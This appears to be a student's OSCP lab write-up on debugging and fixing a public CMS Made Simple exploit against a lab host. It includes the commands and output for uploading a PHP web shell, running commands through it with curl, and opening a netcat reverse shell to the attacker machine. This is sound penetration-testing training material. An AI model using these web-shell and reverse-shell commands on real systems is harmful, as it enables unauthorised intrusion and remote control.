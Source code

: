 15.2.4.1

# 15.2.4.1
## 15.2.4.1.1. Observe the error that is generated when running the exploit.
Here is the error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```


## 15.2.4.1.2. Attempt to troubleshoot the code and determine why the error occurs.

Add a print statement to see what is passed to the parse_csrf_token function. Here is the output:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
...
[+] String that is being split: https://192.168.214.44/admin?_sk_=d2ea2feb7eb09c65a41
...
```



## 15.2.4.1.3. Modify the exploit in order to avoid the error and run it against your dedicated Linux client.
Change the csrf_param variable
![379168bbe78d966fc5ec74ec04b07f05.png](../../../_resources/0c891b8faf4f47babe292721e1a2d74f.png)




## 15.2.4.1.4. Verify that your exploit worked by attempting to execute the *whoami* command using the remote php shell.

Run the exploit:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
[*] Attempting to upload cmsmsrce.txt...
...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.214.44/uploads/shell.php
```

Validate the exploit by attaching to the php shell with curl
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=whoami
www-data
```


## 15.2.4.1.5. Attempt to obtain a fully interactive shell with this exploit.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```

Run a netcat cmd on the exploit to connect to our Kali machine.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=nc+-nv+192.168.119.214+4444+-e+/bin/bash
```

Notice we have a shell
![34f36b8c720d6bd92a09001c071088c0.png](../../../_resources/24fc596d96c24d6cbc601301dda13123.png)







